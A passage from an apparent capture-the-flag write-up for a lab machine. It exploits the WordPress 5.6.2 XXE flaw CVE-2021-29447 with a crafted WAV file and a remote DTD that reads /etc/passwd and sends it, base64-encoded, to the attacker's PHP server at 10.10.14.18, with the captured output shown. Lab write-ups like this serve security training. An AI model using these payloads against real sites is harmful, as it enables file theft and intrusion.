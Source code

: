 We did it!

### Getting a user

This particular version of WordPress(5.6.2) has a vulnerability: CVE-2021-29447.&#x20;

To learn more about this, check the tryhackme room about it: [https://tryhackme.com/room/wordpresscve202129447](https://tryhackme.com/room/wordpresscve202129447)

I'm not going to explain every step of the process, but the general idea is that we upload a malicious WAV file that calls a file on our host machine that allows code execution.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]                                                                                                                                                                                                    
└─$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.18:1234/jsquared.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

We can then write `jsquared.dtd` to fetch the command output in base64 and relay it back to a php server we will have listening.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]
└─$ cat jsquared.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:1234/?p=%file;'>" >
```

I'll upload our payload.wav file and look at our php server output.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]
└─$ php -S 0.0.0.0:1234
[Tue Feb  7 20:10:51 2023] PHP 8.1.12 Development Server (http://0.0.0.0:1234) started
[Tue Feb  7 20:10:56 2023] 10.10.11.186:45084 Accepted
[Tue Feb  7 20:10:56 2023] 10.10.11.186:45084 [200]: GET /jsquared.dtd
[Tue Feb  7 20:10:56 2023] 10.10.11.186:45084 Closing
[Tue Feb  7 20:10:56 2023] 10.10.11.186:45088 Accepted
[Tue Feb  7 20:10:56 2023] 10.10.11.186:45088 [404]: GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm
2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFas
n2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChn
eaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== - No such file or directory
```
